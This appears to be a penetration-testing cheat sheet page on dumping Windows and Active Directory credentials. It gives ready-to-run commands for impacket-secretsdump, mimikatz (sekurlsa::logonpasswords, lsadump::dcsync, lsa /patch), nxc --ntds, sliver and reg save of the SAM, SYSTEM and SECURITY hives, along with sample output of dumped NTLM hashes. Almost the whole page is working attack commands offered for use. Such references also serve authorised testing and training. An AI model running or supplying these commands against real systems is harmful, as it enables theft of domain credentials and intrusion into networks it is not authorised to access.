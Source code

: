 ```yaml
---
title: "Secrets Dump"
date: 2025-7-18
tags: ["SAM", "SYSTEM", "SECURITY", "Dcsync", "Impacket", "secretsdump", "Domain Controller", "Credential Dumping", "Active Directory", "Windows", "Ntds.Dit", "Hive"]
---
```


### Convert ntds.dit to .sqlite

```console
ntdsdotsqlite ntds.dit --system SYSTEM -o ntds.sqlite
```

<small>*Ref: [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite)*</small>

### With ntds.dit and SYSTEM hive

{{< tab set1 tab1 >}}impacket{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
impacket-secretsdump -ntds ntds.dit -system system LOCAL
```

```console {class="sample-code"}
$ impacket-secretsdump -ntds ntds.dit -system system LOCAL
Impacket v0.12.0.dev1+20240730.164349.ae8b81d7 - Copyright 2023 Fortra

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:7f82cc4be7ee6ca0b417c0719479dbec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
---[SNIP]---
[*] Cleaning up...
```

{{< /tabcontent >}}

### With SAM, SYSTEM and SECURITY Hives

{{< tab set2 tab1 >}}impacket{{< /tab >}}
{{< tab set2 tab2 >}}mimikatz{{< /tab >}}
{{< tab set2 tab3 >}}sliver{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
impacket-secretsdump -sam SAM -security SECURITY -system SYSTEM LOCAL
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
reg save HKLM\SYSTEM system
```

```console
reg save HKLM\security security
```

```console
reg save hklm\sam sam
```

```console
.\mimikatz.exe "lsadump::secrets /system:SYSTEM /security:SECURITY"
```

```console
.\mimikatz.exe "lsadump::sam /system:SYSTEM /sam:SAM"
```

{{< /tabcontent >}}
{{< tabcontent set2 tab3 >}}

```console
reg save HKLM\SYSTEM system
```

```console
reg save HKLM\security security
```

```console
reg save hklm\sam sam
```

```console
mimikatz -- '"lsadump::secrets /system:C:\SYSTEM /security:C:\SECURITY"'
```

```console
mimikatz -- '"lsadump::sam /system:C:\SYSTEM /sam:C:\SAM"'
```

{{< /tabcontent >}}


### With DCsync Right

{{< tab set3 tab1 >}}impacket{{< /tab >}}
{{< tab set3 tab2 >}}nxc{{< /tab >}}
{{< tab set3 tab3 >}}mimikatz{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
# Password
impacket-secretsdump '<USER>:<PASSWORD>@<TARGET>'
```

```console
# NTLM
impacket-secretsdump '<DOMAIN>/<USER>@<DC>' -hashes ':<HASH>'
```

```console
# Kerberos
impacket-secretsdump -k -no-pass -dc-ip <DC_IP> <DC>
```

{{< /tabcontent >}}
{{< tabcontent set3 tab2 >}}

```console
nxc smb <TARGET> -d <DOMAIN> -u '<USER>' -H <HASH> --ntds
```

{{< /tabcontent >}}
{{< tabcontent set3 tab3 >}}

```console
.\mimikatz.exe "lsadump::dcsync /all" "exit"
```

```console
# Dump old creds
.\mimikatz.exe "lsadump::dcsync /user:<DOMAIN>\<USER> /history" "exit"
```

{{< /tabcontent >}}

### With NT AUTHORITY\SYSTEM / Administrator

{{< tab set4 tab1 >}}mimikatz{{< /tab >}}
{{< tab set4 tab2 >}}sliver{{< /tab >}}
{{< tabcontent set4 tab1 >}}

```console
.\mimikatz.exe "sekurlsa::logonpasswords"
```

```console
.\mimikatz.exe "lsadump::lsa /patch"
```

{{< /tabcontent >}}
{{< tabcontent set4 tab2 >}}

```console
mimikatz -- '"sekurlsa::logonpasswords"'
```

```console
mimikatz -- '"lsadump::lsa /patch"'
```

{{< /tabcontent >}}